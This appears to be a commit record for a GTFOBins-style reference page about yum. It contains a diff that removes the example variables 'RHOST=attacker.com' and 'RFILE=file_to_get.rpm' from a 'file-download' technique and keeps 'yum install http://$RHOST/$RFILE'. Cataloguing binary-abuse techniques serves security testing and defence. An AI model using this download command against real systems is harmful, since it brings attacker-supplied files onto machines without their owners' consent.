

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/yum.md, in a window 1280 px wide, cut to the strip 339-647 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update yum.md

```diff
--- a/_gtfoud/yum.md
+++ b/_gtfoud/yum.md
@@ -3,7 +3,5 @@
   file-download:
     - description: Fetch a remote file via HTTP GET request. The file on the remote host must have an extension of `.rpm`, the content does not have to be an RPM file. The file will be downloaded to a randomly created directory in `/var/tmp`, for example `/var/tmp/yum-root-cR0O4h/`.
       code: |
-        RHOST=attacker.com
-        RFILE=file_to_get.rpm
         yum install http://$RHOST/$RFILE
 ---
```
